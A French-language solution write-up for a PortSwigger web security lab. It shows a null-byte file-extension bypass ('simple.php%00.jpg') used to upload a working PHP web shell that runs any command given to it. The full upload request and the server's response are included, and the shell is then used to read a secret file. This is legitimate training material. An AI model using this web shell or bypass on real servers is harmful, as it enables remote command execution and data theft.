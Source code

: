 # Lab

https://portswigger.net/web-security/file-upload/lab-file-upload-web-shell-upload-via-obfuscated-file-extension

## Solution

Dans ce lab, on peut upload uniquement des fichiers jpg ou jpeg.

Donc pour upload un fichier qui finit par `.php`, on peut utiliser le null byte `%00` par exemple `simple.php%00.jpg`:

```http
POST /my-account/avatar HTTP/2
Host: 0a3e002304b8510384511349001e0031.web-security-academy.net
Cookie: session=skzjzpYXVqzTudNHhKBoRS28KkPYpzzo
Content-Length: 752
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="117", "Not;A=Brand";v="8"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: https://0a3e002304b8510384511349001e0031.web-security-academy.net
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryoxV2BBlWVLOHPyci
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.5938.132 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a3e002304b8510384511349001e0031.web-security-academy.net/my-account?id=wiener
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9

------WebKitFormBoundaryoxV2BBlWVLOHPyci
Content-Disposition: form-data; name="avatar"; filename="simple.php%00.jpg"
Content-Type: application/octet-stream

<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" autofocus id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd'] . ' 2&<1');
    }
?>
</pre>
</body>
</html>
------WebKitFormBoundaryoxV2BBlWVLOHPyci
Content-Disposition: form-data; name="user"

wiener
------WebKitFormBoundaryoxV2BBlWVLOHPyci
Content-Disposition: form-data; name="csrf"

0C7FdnwyMGXuuuppdAIpYn6mDJSffhcZ
------WebKitFormBoundaryoxV2BBlWVLOHPyci--
```

```http
HTTP/2 200 OK
Date: Fri, 13 Oct 2023 20:48:52 GMT
Server: Apache/2.4.41 (Ubuntu)
Vary: Accept-Encoding
Content-Type: text/html; charset=UTF-8
X-Frame-Options: SAMEORIGIN
Content-Length: 131

The file avatars/simple.php has been uploaded.<p><a href="/my-account" title="Return to previous page">« Back to My Account</a></p>
```

Le fichier a bien été upload et se termine par `.php` ce qui nous permet d'executer `cat /home/carlos/secret`.